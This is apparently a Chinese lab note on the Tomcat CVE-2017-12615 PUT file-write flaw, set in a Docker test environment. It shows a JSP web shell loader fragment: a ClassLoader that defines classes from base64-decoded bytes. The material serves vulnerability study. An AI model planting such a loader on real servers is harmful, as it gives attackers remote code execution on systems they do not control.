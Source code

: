 ​![image](assets/image-20240920105003-lj3t9gy.png)​

​![image](assets/image-20240920105120-ytsmkyf.png)​

## tomcat

docke里tomcat默认端口8080，映射时建议不要修改。86-->8080

### CVE-2017-12615

Tomcat PUT方法任意写文件漏洞（CVE-2017-12615）

​![image](assets/image-20240920193307-evrlr91.png)​

```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
```
